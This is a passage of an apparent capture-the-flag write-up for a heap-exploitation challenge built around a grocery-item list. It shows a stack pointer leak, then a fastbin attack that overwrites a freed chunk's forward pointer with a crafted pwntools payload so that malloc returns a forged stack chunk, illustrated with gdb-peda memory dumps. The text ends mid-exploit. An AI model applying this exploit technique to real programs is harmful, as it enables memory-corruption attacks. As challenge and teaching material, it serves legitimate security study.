 ## leak
In `add_default`, the argument isn't passed properly, instead of copying it's value, it's actually copied the pointer to grocery_item on stack. Thus, we have stack leak.
```
    add_default()
    stack = u64(dump_all()[0].ljust(8, '\x00'))
    log.info('stack ' + hex(stack))

gdb-peda$ x/10gx 0x555555554000+0x202040
0x555555756040: 0x0000555555758430      0x0000000000000000
0x555555756050: 0x0000000000000000      0x0000000000000000
0x555555756060: 0x0000000000000000      0x0000000000000000
0x555555756070: 0x0000000000000000      0x0000000000000000
gdb-peda$ x/10gx 0x0000555555758420
0x555555758420: 0x0000000000000000      0x0000000000000021
0x555555758430: 0x00007fffffffeceb      0x0000000000000000
0x555555758440: 0x0000000000000000      0x000000000001fbc1
0x555555758450: 0x0000000000000000      0x0000000000000000
0x555555758460: 0x0000000000000000      0x0000000000000000
```

## fastbin-attack, forging-chunk
In simple form, we will corrupt FD pointer to trick malloc serving us a controlled pointer. We have stack address leak, so it should be good destination for this. 
```
gdb-peda$ x/10gx 0x00007fffffffecd0
0x7fffffffecd0: 0x00000000ffffecfe      0x0000000000000021
0x7fffffffece0: 0x00002aaaaacf3830      0x65636f7247554910
0x7fffffffecf0: 0x006d657449207972      0x4226f8d697e7ba00
0x7fffffffed00: 0x0000555555555380      0x00002aaaaacf3830
0x7fffffffed10: 0x0000000000000001      0x00007fffffffede8
```
welp. Right off the bat, `0x7fffffffecd0` should be good enough, beacause the it passes the request size check for `__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0)`.
```
    add_empty(1, 4)
	remove_item(1)
	remove_item(1)

gdb-peda$ x/20gx 0x0000555555758420
0x555555758420: 0x0000000000000000      0x0000000000000021 <- item 0
0x555555758430: 0x0000000000000000      0x0000000000000000
0x555555758440: 0x0000000000000000      0x0000000000000021 <- item 1, already free
0x555555758450: 0x0000000000000000      0x0000000000000000
0x555555758460: 0x0000000000000000      0x0000000000000021 <- item 2, free
0x555555758470: 0x0000555555758440      0x0000000000000000 # FD
0x555555758480: 0x0000000000000000      0x0000000000000021 <- item 3
0x555555758490: 0x0000000000000000      0x0000000000000000
0x5555557584a0: 0x0000000000000000      0x000000000001fb61

    payload  = p64(0) * 3
    payload += p64(0x21)
    payload += p64(0) * 3
    payload += p64(0x21)
    payload += p64(stack - 0x1b)
    edit_item(0, payload)

gdb-peda$ x/20gx 0x0000555555758420
0x555555758420: 0x0000000000000000      0x0000000000000021 <- item 0
0x555555758430: 0x0000000000000000      0x0000000000000000
0x555555758440: 0x0000000000000000      0x0000000000000021 <- item 1, already free
0x555555758450: 0x0000000000000000      0x0000000000000000
0x555555758460: 0x0000000000000000      0x0000000000000021 <- item 2, free
```
